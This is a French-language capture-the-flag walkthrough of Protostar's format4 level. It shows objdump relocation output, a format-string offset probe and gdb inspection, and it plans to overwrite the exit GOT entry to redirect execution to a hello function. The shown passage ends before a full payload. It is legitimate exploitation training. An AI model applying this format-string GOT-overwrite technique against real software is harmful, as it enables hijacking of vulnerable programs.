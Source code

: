 ## Level 4

Cette fois plus de variable à écraser, il faut faire exécuter une fonction `hello` présente dans le code. On a un indice consistant à faire afficher les relocations :

> objdump -TR is your friend

Seul la fonction `exit` est intéressante car appellée après la fonction `printf` vulnérable.

```shellsession
user@protostar:/opt/protostar/bin$ objdump -TR format4

format4:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000  w   D  *UND*  00000000              __gmon_start__
00000000      DF *UND*  00000000  GLIBC_2.0   fgets
00000000      DF *UND*  00000000  GLIBC_2.0   __libc_start_main
00000000      DF *UND*  00000000  GLIBC_2.0   _exit
00000000      DF *UND*  00000000  GLIBC_2.0   printf
00000000      DF *UND*  00000000  GLIBC_2.0   puts
00000000      DF *UND*  00000000  GLIBC_2.0   exit
080485ec g    DO .rodata        00000004  Base        _IO_stdin_used
08049730 g    DO .bss   00000004  GLIBC_2.0   stdin


DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080496fc R_386_GLOB_DAT    __gmon_start__
08049730 R_386_COPY        stdin
0804970c R_386_JUMP_SLOT   __gmon_start__
08049710 R_386_JUMP_SLOT   fgets
08049714 R_386_JUMP_SLOT   __libc_start_main
08049718 R_386_JUMP_SLOT   _exit
0804971c R_386_JUMP_SLOT   printf
08049720 R_386_JUMP_SLOT   puts
08049724 R_386_JUMP_SLOT   exit
```

Donc `0x08049724` est l'adresse de `exit` dans la `GOT` et `0x080484b4` est l'adresse de `hello`. On trouve l'offset de notre buffer :

```shellsession
user@protostar:/opt/protostar/bin$ ./format4 
AAAA%4$08x
AAAA41414141
```

La bonne nouvelle c'est que l'adresse de `exit` dans la `GOT` commence déjà par `0x0804` qui est commun à l'adresse de `hello`. Il nous suffit d'écraser les deux octets de poids faible.

```
(gdb) x/wx 0x8049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:   0x080483f2
```
